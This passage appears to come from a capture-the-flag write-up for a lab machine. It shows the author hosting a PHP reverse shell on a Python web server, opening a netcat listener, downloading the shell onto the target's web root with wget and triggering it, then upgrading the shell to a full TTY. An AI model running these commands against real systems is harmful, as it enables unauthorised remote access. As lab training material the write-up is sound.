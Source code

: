Then I stood up the python webserver:

```bash
python3 -m http.server 8000
```

And in a separate terminal tab, opened a netcat listener for the reverse shell

```bash
nc -lvnp 4444
```

Then, from the target box's non-interactive shell created by the exploit 47691.sh, I downloaded the reverse shell directly into ``/opt/ona/www``:

```
wget 10.10.14.10:8000/php-reverse-shell.php
```

Using a web browser, I made a request to the reverse shell. Immediately, I got a shell:

![reverse shell success](reverse%20shell%20success.png)



### Upgrading the Shell

I originally learned this procedure [from this blog post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). It goes into much more depth, but I find that the following is usually sufficient. In only a few rare cases have I had to do more than this. This also assumes python is available on the target machine. Starting with the "dumb" shell, change from ``sh`` to ``bash``:

```bash
SHELL=/bin/bash script -q /dev/null
```

> You'll have a better prompt now, but still no tab completion and still no ability to use things like ``less`` or ``vi``. Let's fix that:
>

```bash
[ctrl+z]
stty raw -echo
fg [enter] [enter]
export TERM=xterm256-color
```

The shell will be backgrounded, then enable echo mode with ``stty``, then brought back to the foreground. This should make the shell much more comfortable to use. Enjoy your tab-completion and colours :rainbow:.
